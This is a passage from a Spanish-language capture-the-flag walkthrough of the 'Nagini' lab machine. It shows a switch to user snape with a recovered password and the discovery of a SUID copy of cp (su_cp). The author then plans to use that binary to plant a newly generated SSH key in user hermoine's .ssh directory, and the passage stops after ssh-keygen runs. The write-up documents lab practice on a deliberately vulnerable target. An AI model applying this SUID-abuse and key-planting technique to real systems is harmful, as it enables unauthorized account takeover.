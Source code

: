 Probemos la contraseña:
```bash
www-data@Nagini:/home/snape$ su snape
Password: 
snape@Nagini:~$ whoami
snape
```
Somos **snape**.

Si nos vamos al directorio `.ssh`, encontraremos un archivo extraño:
```bash
snape@Nagini:~$ cd .ssh
snape@Nagini:~/.ssh$ ls -la
total 12
drwx------ 2 snape snape 4096 Apr  4  2021 .
drwxr-xr-x 4 snape snape 4096 Apr  4  2021 ..
-rw-r--r-- 1 snape snape  222 Apr  4  2021 known_hosts
snape@Nagini:~/.ssh$ cat known_hosts 
|1|6O2f+BIs32tAUn/XAoxMwmGkhOQ=|+eYpmJXrZWCgk5E8e8Q1ouGikpA= ecdsa-sha2-nistp256.....
```
No hay nada más aquí.

Vamos a ver el binario que encontramos antes.

<h2 id="SSH">Ganando Acceso al Usuario Hermoine con Binario cp y Nueva Llave SSH de Usuario snape</h2>

Revisando el **binario SUID** que descubrimos, resulta ser una copia de la herramienta **cp**:
```bash
snape@Nagini:/home/hermoine/bin$ ls -la
total 156
drwxr-xr-x 3 hermoine hermoine   4096 Nov 15 01:34 .
drwxr-xr-x 6 hermoine hermoine   4096 Apr  4  2021 ..
-rwsr-xr-x 1 hermoine hermoine 146880 Apr  4  2021 su_cp
snape@Nagini:/home/hermoine/bin# ./su_cp 
./su_cp: missing file operand
Try './su_cp --help' for more information.
```

Como podemos copiar archivos con esta herramienta, una opción a hacer es copiar una nueva llave de **SSH** dentro del directorio **.ssh** del **usuario hermoine**.

Esto lo podemos hacer dentro del **usuario snape** con la herramienta **ssh-keygen**:
```bash
snape@Nagini:~$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/snape/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/snape/.ssh/id_rsa.
Your public key has been saved in /home/snape/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:qHsmRsgWBERodaBTu1wUYFw8C6lZZe4unC1b3+P7FUg snape@Nagini
The key's randomart image is:
+---[RSA 2048]----+
|=+o*BB.          |
|..==*o           |
|.++..oo    E     |
| o+ +. .  . .    |
| . = .. S  . .   |
|  = =.        .  |
| . *.+       .   |
|    B.+ ..  .    |
|   o.+ ..++.     |
+----[SHA256]-----+
snape@Nagini:~$ ls -la .ssh
total 20
drwx------ 2 snape snape 4096 Nov 15 01:54 .
```